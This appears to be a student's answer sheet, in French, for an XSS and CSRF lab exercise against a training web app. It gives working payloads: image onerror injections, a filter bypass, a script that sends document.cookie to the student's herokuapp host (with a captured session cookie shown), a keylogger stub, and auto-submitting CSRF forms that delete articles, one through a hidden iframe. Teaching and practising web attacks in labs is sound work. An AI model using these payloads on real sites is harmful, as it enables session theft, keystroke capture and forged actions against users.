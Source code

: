 # Réponses TP XSS-CSRF

## Partie 1:

### Level 1:

1. ```html
   <img src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet") ></img>
   ```

### Level 2:

1. ```html
   <img src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet") ></img>
   ```

   dans le champ Titre

2. les concepteur du site ont supprimés les balises script

3. Elles sont récupérées en dur sans filtre

4. ```html
   <img src='non_existing_image.jpg' onerror=while(true){ alert("Bonjour l'Internet")} ></img>
   ```

5. ```html
   <img src='non_existing_image.jpg' onerror="var addr = 'https://my-malicious-ws-berger.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>
   ```

   connect.sid=s%3A-m10uXC7L9XXJypeeOg9SGPGW8937HDS.DCmr35jaEgkiURpg5r0AZaHS0%2BvRfzSow%2Bgp5i5n3C0:1 GET https://my-malicious-website-berger.herokuapp.com/connect.sid=s%3A-m10uXC7L9XXJypeeOg9SGPGW8937HDS.DCmr35jaEgkiURpg5r0AZaHS0%2BvRfzSow%2Bgp5i5n3C0 404 (Not Found)

### Level 3:

1. ```html
   <i<img>mg src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet")/>
   ```

2. ```javascript
   <i<img>mg src='non_existing_image.jpg' onerror=
       function() {
         var httpRequest;
         window.addEventListener('keypress', f);
   
         function f() {
           httpRequest = new XMLHttpRequest();
   
           if (!httpRequest) {
             console.log('Problème /!\ Impossible de créer une requête XMLHttp');
             return false;
           }
           httpRequest.onreadystatechange = alert;
           httpRequest.open('GET', 'https://my-malicious-website-berger.herokuapp.com/keylogger.php');
           httpRequest.setRequestHeader('Access-Control-Allow-Origin', null);
           httpRequest.send();
         }
   
         function alert() {
           if (httpRequest.readyState === XMLHttpRequest.DONE) {
             if (httpRequest.status === 200) {
               console.log(httpRequest.responseText);
             } else {
               console.log('Error /!\ Request Problem');
             }
           }
         }
       }
   />
   ```

## Partie 2:

1. [Mon site](https://my-malicious-website-berger.herokuapp.com/)

2. ```php+HTML
   <?php include_once("index.html"); ?>
   
   <form
   	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
   	method="GET"
       id="42"
   >
   </form>
   
   <script>
   	document.getElementById("42").submit();
   </script>
   ```

3. ```php+HTML
   <?php include_once("index.html"); ?>
   
   <iframe name="hiddenIFrame" style="display: none;"></iframe>
   
   <form
   	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
       method="about:blank"
       id="42"
       target="hiddenIFrame"
   >
   </form>
   
   <script>
   	document.getElementById("42").submit();
   </script>
   ```
